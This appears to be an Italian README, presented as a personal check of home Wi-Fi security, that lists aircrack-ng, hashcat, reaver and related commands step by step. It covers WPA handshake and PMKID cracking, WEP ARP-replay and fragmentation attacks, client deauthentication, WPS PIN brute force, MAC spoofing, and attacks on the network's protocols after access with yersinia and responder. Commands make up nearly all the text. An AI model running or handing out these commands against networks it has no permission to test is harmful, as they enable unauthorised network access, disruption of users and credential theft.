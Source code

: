## CONTROLLARE LA SICUREZZA DEL WIFI
Ho messo questi comandi per controllare la sicurezza del mio wifi usando il linguaggio bash, vi faccio vedere tutti i passaggi che ho fatto
## 1. Configuration

Visualizzato la configurazione delle interfacce di rete.:

```bash
ifconfig && iwconfig && airmon-ng
```

nel mio caso ho dovuto mettere l'interfaccia di rete attiva:

```fundamental
ifconfig wlan0 up
```

Riavviato il Network Manager:

```fundamental
service NetworkManager restart
```

Controllato il dominio della WLAN:

```fundamental
iw reg get
```

Successivamente impostato il dominio:

```fundamental
iw reg set HR
```

Abbassato nel mio casa la potenza dell'interfaccia wireless

```fundamental
iwconfig wlan0 txpower 40
```

## 2. Monitoraggio

Impostato un'interfaccia di rete wireless in modalità monitoraggio:

```bash
airmon-ng start wlan0

ifconfig wlan0 down && iwconfig wlan0 mode monitor && ifconfig wlan0 up
```

Impostato l’interfaccia in modalità monitor su un canale specifico:

```fundamental
airmon-ng start wlan0 8

iwconfig wlan0 channel 8
```

Reimpostato tutto:

```bash
airmon-ng stop wlan0mon

ifconfig wlan0 down && iwconfig wlan0 mode managed && ifconfig wlan0 up
```

Ricerca delle reti wifi:

```fundamental
airodump-ng --wps -w airodump_sweep_results wlan0mon

wash -a -i wlan0mon
```

Monitorato la rete Wifi per prendere le richieste:

```fundamental
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```
Usato anche Kismet per avere più info sull'access point

## 3. Cracking

Verificato se l'interfaccia supporta l'iniezione di pacchetti::

```fundamental
aireplay-ng --test wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

### WPA/WPA2 Handshake

Monitorato una rete per catturare l'handshake a 4 vie:

```fundamental
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

Avviato un attacco a dizionario contro un handshake WPA/WPA2:

```fundamental
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF -w rockyou.txt airodump_essid_results*.cap
```

### PMKID Attack

Attacco WPA/WPA2 senza disconnettere i client.

Installare gli strumenti necessari su Kali Linux:

```bash
apt-get update && apt-get -y install hcxtools
```

Catturare hash PMKKID di tutte le reti:

```fundamental
hcxdumptool --enable_status=1 -o hcxdumptool_results.cap -i wlan0mon
```

Estrarre hash PMKID da un file PCAP:

```fundamental
hcxpcaptool hcxdumptool_results.cap -k hashes.txt
```

Attacco sugli hash PMKID:

```fundamental
hashcat -m 16800 -a 0 --session=cracking --force --status -O -o hashcat_results.txt hashes.txt rockyou.txt
```

### ARP Request Replay Attack

Finta autenticazione con MAC inesistente

```fundamental
aireplay-ng --fakeauth 6000 -o 1 -q 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF -h FF:FF:FF:FF:FF:FF
```

Con filtro MAC attivo, usato un MAC esistente:

```fundamental
aireplay-ng --fakeauth 0 wlan1 -e essid -a FF:FF:FF:FF:FF:FF -h FF:FF:FF:FF:FF:FF
```

Vedere quanti Vettori abbiamo catturato:

```fundamental
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

Avviare l’attacco di replay ARP:

```fundamental
aireplay-ng --arpreplay wlan1 -e essid -a FF:FF:FF:FF:FF:FF -h FF:FF:FF:FF:FF:FF
```

Disconnesso i client:

```fundamental
aireplay-ng --deauth 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

cracckato l'autentificazione WEP:

```fundamental
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF replay_arp*.cap
```

### Hitre Attack

Monitorare la rete falsa:

```fundamental
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

Inviare nuovamente i pacchetti al client:

```fundamental
aireplay-ng --cfrag -D wlan1 -e essid -h FF:FF:FF:FF:FF:FF
```

Crackare nuovamente l'autentificazione WEP:

```fundamental
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF airodump_essid_results*.cap
```

### WPS PIN

Crackcare un pin WPS:

```fundamental
reaver -vv --pixie-dust -i wlan1 -c 8 -e essid -b FF:FF:FF:FF:FF:FF
```

Rifatto con dei delay tra i vari tentativi:

```fundamental
reaver -vv --pixie-dust -N -L -d 5 -r 3:15 -T 0.5 -i wlan1 -c 8 -e essid -b FF:FF:FF:FF:FF:FF
```

## 4. SECLIST

Installato Seclist

```bash
apt-get update && apt-get install seclists
```

## 5. Dopo l'Accesso

Cambiato il MAC ADDRESS:

```fundamental
ifconfig wlan0 down && macchanger --mac FF:FF:FF:FF:FF:FF && ifconfig wlan0 up
```

Appena mi sono connesso alla rete, attaccco i protocolli di rete e poi con wireshark controllo il traffico su di esso:

```fundamental
yersinia -G

responder -wF -i 192.168.8.5

wireshark
```

